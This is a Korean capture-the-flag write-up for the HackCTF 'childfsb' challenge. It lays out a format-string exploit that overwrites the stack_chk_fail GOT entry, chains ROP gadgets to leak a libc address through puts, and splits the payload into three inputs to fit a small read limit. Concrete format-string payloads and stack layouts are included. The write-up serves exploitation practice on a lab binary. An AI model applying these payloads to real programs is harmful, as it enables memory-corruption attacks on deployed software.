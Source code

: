 - **babyfsb payload**

    payload = %(pop pop pop pop ; ret; 주소 10진수값)c %8 $ln +"AA" 

    payload += stack_chk_fail_got 주소

    payload += pop rdi; ret 주소

    payload += puts_got 주소

    payload += puts_plt 주소

    payload += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해

    payload += main 주소

stack_chk_fail_got를 변조하여 ppppr로 가게끔한다. 그다음 pop을4번하게 되면 "pop rdi;ret"를 가리키는 주소로 ret하고 put_gos를 인자로하여 puts_plt를 호출하여 leak을 하는 방식이다.

위 코드는 한번에 삽입할 수 있지만 우리는 0x19사이즈만 입력 가능하므로 위 방식을 쪼개야 한다.

결국 위 babyfsb payload도 스택에 원하는 값을 넣고 적적한 pop,ret 같은 가젯을 이용해서 원하는 동작이 실행되게 하는 것이다.

따라서 우리는 

    1.
    payload1 = %(pop pop pop pop ; ret; 주소 10진수값)c %8 $ln +"AA" 
    payload1 += stack_chk_fail_got 주소
    ----------------------------------------------------------
    2.
    payload2 += pop rdi; ret 주소
    payload2 += puts_got 주소
    payload2 += puts_plt 주소
    ----------------------------------------------------------
    3.
    payload3 += "B"*( 0x40 * len(payload) )  // 카나리 변조에러를 일으키기 위해
    payload3 += main 주소

이런식으로 3번에 걸쳐서 해당 값을 스택에 넣어주면 된다. 물론 위의 페이로드 그대로 쪼개서 넣는 것은 안되고, 저런식으로 쪼개서 넣는다는 것이다. 

1. 3번 페이로드를 read로 buf(스택)에 넣고 main으로 돌아오기
2. 2번 페이로드를 read로 buf(스택)에 넣고 main으로 돌아오기
3. 1번 페이로드를 read로 buf(스택)에 넣고 main으로 돌아오기

이렇게 진행한다면 babyfsb 페이로드와 동일(?) 한 동작을 하는 페이로드를 쪼개서 삽입할 수 있다.

다시한번 말하지만 해당 페이로드를 단순히 쪼개면 안되고 이제 childfsb 문제에 맞게 쪼개서 넣어야 한다.




- **시나리오**
    1. **stack_chk_fail_got를 main으로 돌아가게 한다. 단  push rbp이 아닌  mov rbp,rsp로 돌아가게 한다. 그래야 stack_chk_fail_got를 main으로 덮어도, 스택이 유지된다.**

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20childfsb/Untitled%203.png)

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20childfsb/Untitled%204.png)

        - main에서 read를 통해 $rbp-0x20에 값이 들어가고, printf가 호출되면 0x601020값이 mov rbp,rsp로 덮힌다. 즉 1번 동작은 스택을 유지시키기 위함이다
        - 0x7ffd6c791a00 ~ 0x7ffd6c791a08  : "%4196192c%8$ln"+"AA"
        - 0x7ffd6c791a10 ~ 0x7ffd6c791a18  : 0x601020(stak_chk_fail_got) + A
